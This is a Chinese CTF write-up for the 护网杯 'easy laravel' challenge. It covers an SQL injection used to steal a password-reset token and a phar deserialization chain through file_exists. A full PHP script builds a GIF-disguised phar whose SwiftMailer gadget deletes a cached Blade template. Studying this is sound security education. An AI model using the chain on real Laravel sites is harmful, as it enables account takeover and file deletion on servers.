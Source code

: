 ```yaml
---
layout: post
title:  护网杯-easy laravel-Writeup
noToc: true
date:   2018-10-14 16:30:00+800
tags: WEB CTF 护网杯
cover: '../assets/test1.png'
---
```


##  护网杯-easy laravel-Writeup

​                                      Category: [PHP](http://www.venenof.com/index.php/category/PHP/), [CTF](http://www.venenof.com/index.php/category/CTF/), [Web](http://www.venenof.com/index.php/category/Web/)​

​                                      文章来源于原venenof-[Web](http://www.venenof.com/index.php/category/Web/)，转载venenof

护网杯碰到一个`Laravel`的代码审计题目，刚好最近在用`LA`写平台，于是就很感兴趣，题目整体不难，对`Laravel`框架熟悉就可以做，但整个利用链构造的比较巧妙，感谢出题人@4uuu Nya出了这么一个有意思的题目。

------

源码可以发现`https://github.com/qqqqqqvq/easy_laravel`，下载下来本地看一下源码：

```
$factory->define(App\User::class, function (Faker\Generator $faker) {
    static $password;

    return [
        'name' => '4uuu Nya',
        'email' => 'admin@qvq.im',
        'password' => bcrypt(str_random(40)),
        'remember_token' => str_random(10),
    ];
});
```

很显然，管理员的登陆邮箱已经知道了，同时也知道密码是随机`40`位字符串，基本不可能爆破。

看一下路由，发现只有`note`可以在非admin用户下访问，看一下`NoteController`:

```
public function index(Note $note)
{
    $username = Auth::user()->name;
    $notes = DB::select("SELECT * FROM `notes` WHERE `author`='{$username}'");
    return view('note', compact('notes'));
}
```

明显的`sqli`，我们可以获取任何数据库中的内容，但是密码我们即使拿到了也没有什么用，我们发现其注册登陆的整个流程都是`Laravel`官方推荐的，也就是管理员肯定是这么安装的：

```
php artisan make:auth
```

既然没有重构这部分代码，也就意味着我们可以去重置管理员密码，点击重置密码时，输入管理员邮箱`admin@qvq.im`，那么`password_resets`中会更新一个token，访问`/password/reset/token`即可重置密码，首先利用注入拿到token：
 ![web1.png](http://www.venenof.com/usr/uploads/2018/10/3884211593.png)
 然后修改密码即可:
 ![web2.png](http://www.venenof.com/usr/uploads/2018/10/2368972807.png)

> Blade 模版

进入后台后，访问`http://49.4.78.51:32310/flag`是提示`no flag`，但是我们看一下`FlagController`

```
    public function showFlag()
    {
        $flag = file_get_contents('/th1s1s_F14g_2333333');
        return view('auth.flag')->with('flag', $flag);
    }
```

很明显，blade渲染的跟我们看到的明显不一样，如果用`Laravel`写过东西，经常会遇到这种问题，明明blade更新了，页面却没有显示，这都是因为`Laravel`的模版缓存，很明显，现在我们需要去更改flag的模版缓存，缓存文件的名字是laravel自动生成的，生成方法如下：

```
/**
     * Get the path to the compiled version of a view.
     *
     * @param  string  $path
     * @return string
*/
public function getCompiledPath($path)
{
    return $this->cachePath.'/'.sha1($path).'.php';
}
```

但是整个站的逻辑很简单，没有其他文件操作的点，那么就剩下了`UploadController`，只能上传图片，但是有一个方法引起了我的兴趣：

```
public function check(Request $request)
{
    $path = $request->input('path', $this->path);
    $filename = $request->input('filename', null);
    if($filename){
        if(!file_exists($path . $filename)){
            Flash::error('磁盘文件已删除，刷新文件列表');
        }else{
            Flash::success('文件有效');
        }
    }
    return redirect(route('files'));
}
```

`path`跟`filename`没有任何过滤，而我们可以利用`file_exists`去操作phar包，这里很明显存在一个反序列化，于是现在的思路很明确：

`phar反序列化=>文件操作删除或者移除=>laravel重新渲染blade=>读取flag`

看了下`composer`，发现都是默认组件，于是全局搜一下`unlink`，在`Swift_ByteStream_TemporaryFileByteStream`的析构函数中存在`unlink`方法:
 ![nnn.png](http://www.venenof.com/usr/uploads/2018/10/577144858.png)
 于是直接构造即可:

```
<?php
class Swift_ByteStream_AbstractFilterableInputStream {
    /**
     * Write sequence.
     */
    protected $sequence = 0;
    /**
     * StreamFilters.
     *
     * @var Swift_StreamFilter[]
     */
    private $filters = [];
    /**
     * A buffer for writing.
     */
    private $writeBuffer = '';
    /**
     * Bound streams.
     *
     * @var Swift_InputByteStream[]
     */
    private $mirrors = [];
}
class Swift_ByteStream_FileByteStream extends Swift_ByteStream_AbstractFilterableInputStream {
    /** The internal pointer offset */
    private $_offset = 0;

    /** The path to the file */
    private $_path;

    /** The mode this file is opened in for writing */
    private $_mode;

    /** A lazy-loaded resource handle for reading the file */
    private $_reader;

    /** A lazy-loaded resource handle for writing the file */
    private $_writer;

    /** If magic_quotes_runtime is on, this will be true */
    private $_quotes = false;

    /** If stream is seekable true/false, or null if not known */
    private $_seekable = null;

    /**
     * Create a new FileByteStream for $path.
     *
     * @param string $path
     * @param bool   $writable if true
     */
    public function __construct($path, $writable = false)
    {
        $this->_path = $path;
        $this->_mode = $writable ? 'w+b' : 'rb';

        if (function_exists('get_magic_quotes_runtime') && @get_magic_quotes_runtime() == 1) {
            $this->_quotes = true;
        }
    }

    /**
     * Get the complete path to the file.
     *
     * @return string
     */
    public function getPath()
    {
        return $this->_path;
    }
}
class Swift_ByteStream_TemporaryFileByteStream extends Swift_ByteStream_FileByteStream {
    public function __construct() {
        $filePath = "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php";
        parent::__construct($filePath, true);
    }
    public function __destruct() {
        if (file_exists($this->getPath())) {
            @unlink($this->getPath());
        }
    }
}
$obj = new Swift_ByteStream_TemporaryFileByteStream();
$p = new Phar('./1.phar', 0);
$p->startBuffering();
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
$p->setMetadata($obj);
$p->addFromString('1.txt','text');
$p->stopBuffering();
rename('./1.phar', '1.gif');
?>
```

然后上传，`check`的时候触发反序列化即可删除模版文件，然后访问`flag`路由拿到flag:-P
 ![x.png](http://www.venenof.com/usr/uploads/2018/10/714312758.png)